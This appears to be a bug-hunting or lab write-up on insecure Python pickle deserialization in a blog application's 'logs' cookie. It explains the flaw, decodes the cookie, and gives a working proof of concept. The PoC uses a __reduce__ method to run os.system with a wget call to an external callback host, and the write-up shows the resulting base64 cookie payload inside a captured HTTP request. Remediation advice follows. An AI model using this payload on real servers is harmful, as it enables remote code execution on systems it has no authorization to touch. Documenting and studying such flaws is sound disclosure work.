

## Description

The "Deserialization of untrusted data" vulnerability occurs when an application accepts and deserializes data from an untrusted source without proper validation. Serialization converts objects into a format that can be stored or transmitted, and deserialization converts this format back into objects. If the data comes from an untrusted source and is not properly validated, an attacker can manipulate this data to create malicious objects, leading to arbitrary code execution, privilege escalation, or other attacks.

In this case, the `logs` cookie is added when a user accesses the registration or login page (`/register` or `/login/`). This allows exploitation without having an account on the site.




## Exploitation

The `logs` cookie is serialized using Python's `pickle` module and encoded in base64. We can use the `pickletools` module to verify this by decoding the base64 string and analyzing the serialized data.

```python
import base64
import pickletools

c = "gASVSwAAAAAAAACMFWJsb2dfRElZLmxvZ3NfbWFuYWdlcpSMBExvZ3OUk5QpgZR9lCiMCHVzZXJuYW1llIwMVG90b3RvdG8xMjMhlIwDbG9nlIh1Yi4="
cb = base64.b64decode(c.encode())
print(cb)
# b'\x80\x04\x95K\x00\x00\x00\x00\x00\x00\x00\x8c\x15blog_DIY.logs_manager\x94\x8c\x04Logs\x94\x93\x94)\x81\x94}\x94(\x8c\x08username\x94\x8c\x0cTotototo123!\x94\x8c\x03log\x94\x88ub.'

pickletools.dis(cb)
# Output:
#  0: \x80 PROTO      4
#  2: \x95 FRAME      75
# 11: \x8c SHORT_BINUNICODE 'blog_DIY.logs_manager'
# 34: \x94 MEMOIZE    (as 0)
# 35: \x8c SHORT_BINUNICODE 'Logs'
# 41: \x94 MEMOIZE    (as 1)
# 42: \x93 STACK_GLOBAL
# 43: \x94 MEMOIZE    (as 2)
# 44: )    EMPTY_TUPLE
# 45: \x81 NEWOBJ
# 46: \x94 MEMOIZE    (as 3)
# 47: }    EMPTY_DICT
# 48: \x94 MEMOIZE    (as 4)
# 49: (    MARK
# 50: \x8c     SHORT_BINUNICODE 'username'
# 60: \x94     MEMOIZE    (as 5)
# 61: \x8c     SHORT_BINUNICODE 'Totototo123!'
# 75: \x94     MEMOIZE    (as 6)
# 76: \x8c     SHORT_BINUNICODE 'log'
# 81: \x94     MEMOIZE    (as 7)
# 82: \x88     NEWTRUE
# 83: u        SETITEMS   (MARK at 49)
# 84: b    BUILD
# 85: .    STOP
```

## PoC

The `__reduce__` function in Python allows customizing the serialization of an object using the `pickle` module. In this context, it is used to inject arbitrary code into the `logs` cookie. The base64 string `gASVUAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjDV3Z2V0IGd6ajU3aGsxYW0zNjBtb3BxOHM4enM4cmdpbTlhenlvLm9hc3RpZnkuY29tP1JDRZSFlFKULg==` represents serialized data that uses the `__reduce__` function to execute `os.system()` during deserialization.

```python
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        cmd = ('wget gzj57hk1am360mopq8s8zs8rgim9azyo.oastify.com?RCE')
        return os.system, (cmd,)

pickled = pickle.dumps(RCE())
print(base64.urlsafe_b64encode(pickled).decode())
```

When the server deserializes the `logs` cookie, it executes the `os.system()` command with the specified arguments, enabling remote code execution. Verification of successful exploitation can be confirmed by observing HTTP and DNS requests from the victim server to our webhook.

```
GET / HTTP/1.1
Host: 49p6p0fv.3xploit.me
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://49p6p0fv.3xploit.me/search_tutorial/
DNT: 1
Connection: close
Cookie: logs="gASVUAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjDV3Z2V0IGd6ajU3aGsxYW0zNjBtb3BxOHM4enM4cmdpbTlhenlvLm9hc3RpZnkuY29tP1JDRZSFlFKULg=="; csrftoken=Nkl0arpsnnYHCuv95c1of8BWjNk4wTBD
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
X-PwnFox-Color: green
```


## Remediation

To protect against deserialization vulnerabilities, several remediation measures can be implemented:

1. **Validate Data Before Deserialization**: Ensure that serialized data comes from a trusted source and does not contain malicious code. This can be done using filters, signatures, or sophisticated validation mechanisms.
2. **Use Safe Serializers**: Prefer serializers that limit functionalities available during deserialization, such as JSON or XML, which do not allow arbitrary code execution.
3. **Limit Object Permissions**: Restrict the permissions of deserialized objects to prevent unauthorized actions. Use sandboxes, security policies, or access control mechanisms.
4. **Update Serialization Libraries**: Keep serialization libraries up-to-date to patch known vulnerabilities and protect against new threats.

In the described exploitation, a potential remediation measure would be to validate serialized data before deserialization to ensure it does not contain malicious code. Additionally, using a safe serializer like JSON or XML is recommended to avoid deserialization vulnerabilities.

# Author
ENSIBS-GCC_Chasseur_de_bogue